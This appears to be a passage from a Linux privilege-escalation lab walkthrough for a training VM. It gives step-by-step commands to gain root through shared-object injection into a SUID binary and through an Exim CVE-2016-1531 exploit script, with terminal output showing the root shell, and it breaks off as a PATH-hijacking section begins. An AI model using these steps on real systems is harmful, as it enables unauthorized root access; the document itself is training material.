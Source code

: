 First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`

Run strace on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

``/usr/local/bin/suid-so`

Remember to exit out of the root shell before continuing!

```
/home/user/tools/suid/exim/cve-2016-1531.sh

user@debian:~/tools/suid/exim$ ls
cve-2016-1531.sh
user@debian:~/tools/suid/exim$ chmod +x cve-2016-1531.sh 
user@debian:~/tools/suid/exim$ ./cve-2016-1531.sh 
[ CVE-2016-1531 local root exploit
sh-4.1# 
sh-4.1# whoami
root
sh-4.1# pwd
/home/user/tools/suid/exim
sh-4.1# echo $SHELL
/bin/bash
sh-4.1# 

```

### SUID / SGID Executables - Environment Variables

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

``/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`
